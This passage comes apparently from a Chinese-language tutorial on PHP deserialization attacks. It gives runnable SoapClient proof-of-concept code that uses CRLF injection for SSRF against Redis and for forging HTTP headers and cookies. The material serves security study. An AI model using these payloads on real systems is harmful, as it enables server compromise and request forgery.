 ![img](assets/202304161617721.png)

#### 利用姿势三、 攻击Redis（配合CRLF漏洞）

[看这里，攻击redis姿势](https://www.cnblogs.com/AmosAlbert/p/13747408.html)

```php
<?php
$target = 'http://ip:10000/';
$poc = "CONFIG SET dir /var/www/html";
$a = new SoapClient(null,array('location' => $target, 'uri' => 'hello^^'.$poc.'^^hello'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b); 
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

#### 利用姿势四、http数据包污染

 发送POST的数据包，这里需要将Content-Type设置为application/x-www-form-urlencoded，我们可以通过添加两个\r\n来将原来的Content-Type挤下去，自定义一个新的Content-Type  

```php
<?php
$a = new SoapClient(null, array(
    'location' => 'http://47.102.146.95:2333',
    'uri' =>'uri',
    'user_agent'=>"111111\r\nContent-Type: application/x-www-form-urlencoded\r\nX-Forwarded-For: 127.0.0.1\r\nCookie: PHPSESSID=3stu05dr969ogmprk28drnju93\r\nContent-Length: 10\r\n\r\npostdata"));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```

![img](assets/202304161617022.png)
